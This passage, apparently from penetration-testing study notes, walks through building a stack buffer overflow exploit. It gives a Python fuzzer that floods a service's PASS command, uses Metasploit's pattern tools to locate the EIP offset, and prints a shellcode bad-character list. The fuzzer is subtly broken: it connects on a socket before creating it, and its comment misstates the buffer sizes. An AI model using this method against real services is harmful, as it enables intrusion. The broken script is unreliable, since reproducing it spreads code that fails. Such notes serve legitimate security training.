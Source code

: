 Convert metasploit modules to stand alone (a little bit advanced): [https://netsec.ws/?p=262](https://netsec.ws/?p=262)

### Steps for Buffer Overflow
1.) Gradually fuzz the input until you see that the program has crashed. Here is an example program that can be used for fuzzing:
```
#!/usr/bin/python 
import socket 
# Create an array of buffers, from 1 to 5900, with increments of 200. 
buffer=["A"] 
counter=100 
while len(buffer) <= 30: 
    buffer.append("A"*counter) 
    counter=counter+200 
for string in buffer: 
    print "Fuzzing PASS with %s bytes" % len(string) 
    connect=s.connect(('IP address',port))  # Change IP and port!
    s=socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
    s.recv(1024) 
    s.send('USER test\r\n') 
    s.recv(1024) 
    s.send('PASS ' + string + '\r\n') 
    s.send('QUIT\r\n') 
    s.close() 
```

2.) We need to figure out where the program crashed. Use `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l [size]`, where size is a possible size that crashed the program in the previous step. This program will create a string that you should use as input into the program. After sending the string to the program, view it in a debugger, and copy the value of EIP right when the program crashed. You can then use `/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l [size] -q [EIP's value]"` to discover the precise location where you can rewrite EIP.

3.) We need to check for bad characters, which are characters that should not be in your shellcode because they could delete part of your string (such as the \x00 character, which terminates strings in C). Below, there is a list of characters.
```
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10" 
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20" 
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30" 
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40" 
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50" 
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60" 
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70" 
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80" 
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90" 
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0" 
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0" 
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0" 
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0" 
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0" 
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0" 
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" 
```
